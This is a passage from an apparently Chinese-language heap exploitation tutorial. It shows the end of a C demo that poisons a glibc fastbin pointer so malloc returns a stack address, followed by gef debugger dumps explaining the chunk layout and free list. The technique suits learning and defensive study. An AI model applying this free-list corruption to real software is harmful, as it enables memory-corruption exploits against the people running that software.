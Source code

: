 ```
​    fprintf(stderr, "Now, we overwrite the first 8 bytes of the data at %p to point right before the 0x20.n", a);
​    *d = (unsigned long long) (((char*)&amp;stack_var) - sizeof(d));

​    fprintf(stderr, "3rd malloc(8): %p, putting the stack address on the free listn", malloc(8));
​    fprintf(stderr, "4th malloc(8): %pn", malloc(8));

`}`
```

### <a class="reference-link" name="%E6%B5%81%E7%A8%8B%E5%88%86%E6%9E%90"></a>流程分析

首先分配了三个大小相同的内存空间，分配内存大小为0x20（必为8的整数倍，并且最小为32字节）折柳使用gef插件，可以比较好的调试heap

```
gef➤  x/20gx 0x603010-0x10

0x603000:    0x0000000000000000    0x0000000000000021 &lt;- chunk_A

0x603010:    0x0000000000000000    0x0000000000000000

0x603020:    0x0000000000000000    0x0000000000000021 &lt;-chunk_B

0x603030:    0x0000000000000000    0x0000000000000000

0x603040:    0x0000000000000000    0x0000000000000021 &lt;-chunk_C

0x603050:    0x0000000000000000    0x0000000000000000

0x603060:    0x0000000000000000    0x0000000000020fa1 &lt;-Top_chunk

0x603070:    0x0000000000000000    0x0000000000000000
```

第一次free内存a，查看内存本身并没有变化。因为fast bins是一个单链表，此时查看fast bins就能看到链表头。

```
gef➤  x/20gx 0x603010-0x10
0x603000:    0x0000000000000000    0x0000000000000021
0x603010:    0x0000000000000000    0x0000000000000000

gef➤  heap bin fast

─────[ Fastbins for arena 0x7ffff7dd1b20 ]────
Fastbin[0]  →   UsedChunk(addr=0x603010,size=0x20)  
Fastbin[1] 0x00
Fastbin[2] 0x00
```

第二次free b内存，因为如果fast bins链表头存放的是a的地址，那就无法再次释放a了。

此时fashbins链表已经将b内存插入到了链表头。
